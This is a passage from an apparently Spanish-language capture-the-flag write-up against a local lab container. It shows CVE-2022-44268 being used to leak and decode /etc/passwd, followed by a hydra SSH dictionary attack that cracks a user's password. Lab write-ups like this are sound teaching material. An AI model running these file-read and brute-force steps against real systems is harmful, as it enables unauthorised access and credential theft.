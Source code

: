 copiamos lo que se marca a continuacion

![image](https://github.com/user-attachments/assets/56995122-2291-4150-98ba-85150ccd2c8e)

lo guardamos en un archivo .txt

![image](https://github.com/user-attachments/assets/14d64f74-f232-4490-8bac-69ae221287c1)

y como esta en hexadecimal, lo pasamos a `ascii` con `xxd`

```ruby
xxd -ps -r cadena.txt
```
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
application:x:1000:1000::/home/application:/bin/bash
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
lenam:x:1001:1001::/home/lenam:/bin/bash
```
y asi hemos podido explotar el `CVE-2022-44268`

# Ataque de diccionario SSH

ya que conocemos los usuarios del sistema y tras intentar leer la llave `/home/lenam/.ssh/id_rsa` no lo consegui, ahora aplicare un ataque de diccionario con el servicio `SSH`

```ruby
hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-19 09:58:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344403 login tries (l:1/p:14344403), ~896526 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 337.00 tries/min, 337 tries in 00:01h, 14344070 to do in 709:25h, 12 active
[22][ssh] host: 172.17.0.2   login: lenam   password: loverboy
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
```